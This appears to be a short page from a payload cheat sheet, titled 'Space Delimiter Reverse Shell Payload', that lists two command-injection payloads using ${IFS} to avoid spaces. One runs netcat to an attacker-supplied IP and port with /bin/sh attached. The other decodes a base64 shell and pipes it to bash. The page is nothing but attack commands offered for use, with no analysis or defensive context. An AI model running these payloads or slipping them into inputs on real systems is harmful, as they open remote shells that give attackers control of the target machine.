 # Space Delimiter Reverse Shell Payload

## Payloads

### 1) Netcat

    nc${IFS}MY_IP${IFS}MY_PORT${IFS}-e${IFS}/bin/sh

### 2) Base64 encoded

    echo${IFS}BASE64_SHELL|base64${IFS}-d|bash
